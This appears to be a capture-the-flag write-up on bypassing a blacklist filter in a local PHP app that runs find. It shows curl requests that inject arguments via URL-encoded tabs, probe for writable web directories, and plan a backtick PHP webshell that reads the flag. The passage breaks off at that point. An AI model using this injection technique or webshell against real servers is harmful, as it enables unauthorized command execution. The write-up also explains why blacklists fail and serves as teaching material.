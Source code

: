 ### The Core Issue
The fundamental problem is that **blacklisting is inherently flawed** - it's impossible to anticipate all possible attack vectors. The application should use **whitelisting** or **parameterized commands** instead.

## Enumeration

### Initial Command Injection Test

```bash
curl 'http://localhost:8888/?cmd=/%09-maxdepth%091%09-ls'
# curl 'http://localhost:8888/?cmd=/	-maxdepth	1	-ls'
```



#### Why This Works
- **TAB Character Bypass**: We use `%09` (URL-encoded TAB) instead of spaces because spaces are blacklisted
- **Find Command Structure**: The command becomes `find / -maxdepth 1 -ls`
- **Directory Enumeration**: This lists the contents of the root directory with detailed information
- **Proof of Concept**: Confirms that our bypass technique works and we can execute find commands

### Checking Writable Directories

```bash
curl 'http://localhost:8888/?cmd=/var/www/html%09-maxdepth%091%09-writable%09-ls'
# curl 'http://localhost:8888/?cmd=/var/www/html	-maxdepth	1	-writable	-ls'
```



#### Why This Step is Critical
- **Write Permission Check**: We need to confirm we can write files to the web directory
- **Find -writable**: This find option only shows files/directories we have write access to
- **Web Directory Access**: `/var/www/html` is the web root where PHP files can be executed
- **Strategic Planning**: Once we confirm write access, we can plan our file-based attack

## Exploitation

### Method 1: Crafting a PHP Webshell with Backticks

#### The Goal
Create a simple PHP file that runs commands. We use backticks instead of other methods because backticks don't use `$`, `[`, `]`, or `()` - all of which are blocked by the filter.

#### The Target Shell Content
We want to create `/var/www/html/p.php` with this content:
```php
<?php echo `/readflag i want the flag please`; ?>
```
